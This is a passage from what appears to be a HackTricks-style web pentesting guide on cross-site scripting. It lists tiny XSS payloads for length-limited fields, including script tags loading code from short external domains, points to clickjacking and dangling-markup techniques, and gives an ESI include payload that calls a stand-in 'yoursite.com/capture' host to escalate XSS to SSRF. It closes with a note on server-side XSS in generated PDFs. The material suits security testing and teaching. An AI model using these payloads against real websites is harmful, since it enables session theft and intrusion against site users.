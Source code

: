 ##### Length bypass (XSS in 20chars)

Taken from the blog of [Jorge Lajara](https://jlajara.gitlab.io/posts/2019/11/30/XSS_20_characters.html).

```
<svg/onload=alert``>
<script src=//aa.es>
<script src=//℡㏛.pw>
```

The last one is using 2 unicode characters which expands to 5: telsr
More of these characters can be found [here](https://www.unicode.org/charts/normalization/).
To check in which characters are decomposed check [here](https://www.compart.com/en/unicode/U+2121).
**More tiny XSS for different environments** payload [can be found here and [here](https://tinyxss.terjanq.me/).

##### Click XSS - Clickjacking

If in order to exploit the vulnerability you need the **user to click a link or a form** with prepopulated data you could try to [**abuse Clickjacking**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/clickjacking.md#xss-clickjacking) (if the page is vulnerable).

##### Impossible - Dangling Markup

If you just think that **it's impossible to create an HTML tag with an attribute to execute JS code**, you should check [**Danglig Markup** ](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/dangling-markup-html-scriptless-injection.md)because you could **exploit** the vulnerability **without** executing **JS** code.

#### XSS Abusing other vulnerabilities

##### XSS to SSRF

Got XSS on a **site that uses caching**? Try **upgrading that to SSRF** through Edge Side Include Injection with this payload:

```
<esi:include src="http://yoursite.com/capture" />
```

Use it to bypass cookie restrictions, XSS filters and much more!
More information about this technique here: [**XSLT**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations.md).

##### XSS in dynamic created PDF

If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.
So, if the **PDF creator bot finds** some kind of **HTML** **tags**, it is going to **interpret** them, and you can **abuse** this behaviour to cause a **Server XSS**.

https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf.md
